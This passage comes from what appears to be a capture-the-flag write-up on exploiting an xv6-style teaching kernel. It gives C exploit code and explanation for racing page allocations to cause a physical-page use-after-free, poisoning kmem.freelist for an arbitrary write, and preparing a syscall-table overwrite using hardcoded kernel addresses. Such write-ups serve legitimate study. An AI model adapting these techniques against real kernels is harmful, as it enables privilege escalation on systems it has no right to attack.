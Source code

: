     int child = fork();

    uint64 *t[PAGES] = {0};

    for (int i = 0; i < PAGES; i++)
        t[i] = (uint64 *)sbrk(PAGE_SIZE);

    if (child != 0)
        process1();
    else
        process2(t);

    for (;;){}
    
    return 0;
}
{{< /code >}}

In the code provided, two processes are allocating memory at the same time. We can find the double-allocated page by checking contents the page. When a page is allocated, it's filled with null bytes. According to the `kfree` function, when a page is freed, it's filled with `\x01` bytes, except for the first 8 bytes, which will contain the pointer to the next free page.
### Poison the next pointer in kmem.freelist

The use-after-free issue on the physical page provides us with a significant capability. By manipulating the next pointer, we can corrupt the `kmem.freelist`, allowing a one-shot arbitrary write operation. However, the drawback is that the requested memory is wiped during allocation, meaning that certain memory areas can't be allocated, such as the kernel stack (kstack), because this would cause the kernel to panic upon returning to userspace.

{{< code language="c" title="Stage 2" id="7" expand="Show" collapse="Hide" isCollapsed="false" >}}
void process1()
{
	[...]
	
    uint64 *t2[PAGES] = {0};
    int aw_page = -1;

    for (int j = 0; j < PAGES; j++)
    {

        t2[j] = (uint64 *)sbrk(PAGE_SIZE);

        if (t2[j] == (uint64 *)-1)
        {
            aw_page = j - 1;
            break;
        }
    }

    uint64 *original_syscall_table[] = {(uint64 *)0x0, (uint64 *)0x0000000080002be4, (uint64 *)0x0000000080002b9e, (uint64 *)0x0000000080002bfc, (uint64 *)0x00000000800059f4, (uint64 *)0x0000000080005168, (uint64 *)0x0000000080002d12, (uint64 *)0x00000000800058e8, (uint64 *)0x0000000080005266, (uint64 *)0x0000000080005840, (uint64 *)0x000000008000511a, (uint64 *)0x0000000080002bca, (uint64 *)0x0000000080002c26, (uint64 *)0x0000000080002c68, (uint64 *)0x0000000080002d3c, (uint64 *)0x00000000800055c8, (uint64 *)0x00000000800051c0, (uint64 *)0x00000000800057c0, (uint64 *)0x00000000800053f6, (uint64 *)0x00000000800052ac, (uint64 *)0x0000000080005760, (uint64 *)0x0000000080005218};
    uint64 *syscall_table = (void *)t2[aw_page] + 0x450;
